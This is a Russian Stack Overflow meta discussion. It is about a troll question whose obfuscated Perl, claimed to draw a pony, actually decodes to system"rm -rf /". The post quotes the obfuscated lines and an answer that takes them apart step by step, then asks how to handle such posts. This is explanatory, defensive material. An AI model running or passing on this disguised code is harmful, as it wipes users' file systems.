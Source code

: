 ```yaml
---
title: "Post 10560"
se.owner.user_id: 337540
se.owner.display_name: "Victor VosMottor thanks Monica"
se.owner.link: "https://ru.meta.stackoverflow.com/users/337540/victor-vosmottor-thanks-monica"
se.link: "https://ru.meta.stackoverflow.com/q/10560"
se.post_id: 10560
se.post_type: question
se.score: 42
---
```

<h3>Вступление.</h3>
<p>Делая вчера очередь проверок, я наткнулся на вопрос заданный только вчера, содержащий код, но заминусованный капитально: -14 (на текущий момент -16). Думаю, что-то это слишком много, ну если обычно задают плохой вопрос (е.г. домашку, перевод, по-английски и т.д.), то если он недавний, то число даунвоутов где-то ∈ range(-2, -7). Я открыл вопрос и смотрю комментарии и ответ...</p>
<h3>Продолжение</h3>
<blockquote>
предлагаю удалить текст вопроса. – KoVadim 2 дня назад
5
<p>Я голосую за закрытие этого вопроса, потому что вопрос содержит вредоносный код в завуалированном виде. – aleksandr barakin 2 дня назад</p>
<p>Я просто хочу вывести красивого пони в терминале. Ничего вредоносного – Сергей Валерьевич 2 дня назад</p>
<p>пони выводятся по apt moo – KoVadim 2 дня назад</p>
<p>@aleksandrbarakin, может просто в ответе разобрать почему код вредоносный? :-) – Grundy 2 дня назад</p>
<p>внизу уже разобрали – KoVadim 2 дня назад</p>
<p>@KoVadim, я где-то видел именно по пунктам разбор, типа как эта строка преобразуется в аналог rm rf :) – Grundy 2 дня назад</p>
<p>что то модераторы не идут – KoVadim 2 дня назад</p>
<p>кстати, ассоциация: stackoverflow.com/q/9591658/2881286 – Grundy 2 дня назад
2</p>
<p>@Grundy, добавил разбор. – Centrix 2 дня назад
3</p>
<p>@aleksandrbarakin хоть это и троллинг, но вопрос правил не нарушает сам по себе. А хороший ответ только приветствуется.</p>
</blockquote>
<p>Разбор в ответе:</p>
<blockquote>
+9
<p>Эта программа удаляет все директории, в том числе и корневую /.</p>
<p>А если подробнее то:</p>
<p><code>echo &quot;test... test... test...&quot;</code> выполнение этой команды не влияет на работу и добавлено, скорее всего, для усыпления бдительности. То, что происходит в остальном коде — совсем не очевидно из-за преднамеренно запутанного написания. В данной строчке записано всего три последовательно выполняемых команды. Запишем команду следующим образом:</p>
<pre><code>$? ? s:;s:s;;$?: : s;;=]=&gt;%-{&lt;-|}&lt;&amp;|`{; ;
y; -/:-@[-`{-};`-{/&quot; -; ;
s;;$_;see
</code></pre>
<p>Первая конструкция анализирует переменную <code>$?</code> — код возврата предыдущей команды. Так как перед выполнением этой конструкции дочерних процессов не создавалось, $? будет содержать 0, и выполнена будет вторая «ветка» — <code>s;;=]=&gt;%-{&lt;-|}&lt;&amp;|</code>{;<code>. Эта команда, в свою очередь, заменяет строку в переменной-аккумуляторе </code>$_<code>на</code>=]=&gt;%-{&lt;-|}&lt;&amp;|{` (первый символ после s устанавливает ограничитель параметров этого оператора, и хотя традиционно используются слэш / или |, для неясности в этой конструкции используется ограничитель ;).</p>
<p>Вторая команда транслирует содержимое «аккумулятора» по достаточно сложным правилам. В левой части указано четыре диапазона символов, в правой — один. Если раскрыть эти диапазоны, получим следующее соответствие:</p>
<pre><code> !&quot;#$%&amp;'()*+,-./:;&lt;=&gt;?@[\]^_`{|}
`abcdefghijklmnopqrstuvwxyz{/&quot;
</code></pre>
<ul>
<li></li>
</ul>
<p>В результате содержимое $_ принимает вид:</p>
<pre><code>system&quot;rm -rf /&quot;
</code></pre>
<p>Третья же команда дважды (как инструктирует флаг ee) «вычисляет» содержимое аккумулятора — вышеуказанную деструктивную команду — и пытается заменить пустую строку в аккумуляторе на результат вычисления.</p>
</blockquote>
Comments:
<blockquote>
<p>Это неправда. Она должна рисовать красивого пони – Сергей Валерьевич 23 июн в 14:42</p>
<p>Знаем мы ваших пони. – Centrix 23 июн в 14:43
11</p>
<p>Ты троянская пони, троянская пони! ✨🌙 – andreymal 23 июн в 15:05</p>
</blockquote>
<a href="https://ru.stackoverflow.com/questions/1144804/%d0%a7%d1%82%d0%be-%d0%b4%d0%b5%d0%bb%d0%b0%d0%b5%d1%82-%d0%b4%d0%b0%d0%bd%d0%bd%d1%8b%d0%b9-%d0%be%d0%b4%d0%bd%d0%be%d1%81%d1%82%d1%80%d0%be%d1%87%d0%bd%d0%b8%d0%ba-%d0%bd%d0%b0-perl">Link to question</a>
<hr>
<h1>Что я хочу обсудить.</h1>
<p>Такие вопросы к счастью редки. Но они несут очень большую опасность. Любой не знающий перл или невнимательный человек мог запустить этот код и...  <code>sudo rm -rf /</code></p>
<p>Я считал, что наше SOобщество полностью защищено от троллей, но вот это — наша брешь. В правилах такие вопросы не оговариваюстя. Я предлагаю обсудить это в комментариях, и в качестве ответов предложить решение этой проблемы — что делать с такими вопросами? Предупреждения в самом вопросе — мало!</p>
<p><strong>P.S.</strong> За название — спасибо @andreymal'y!</p>
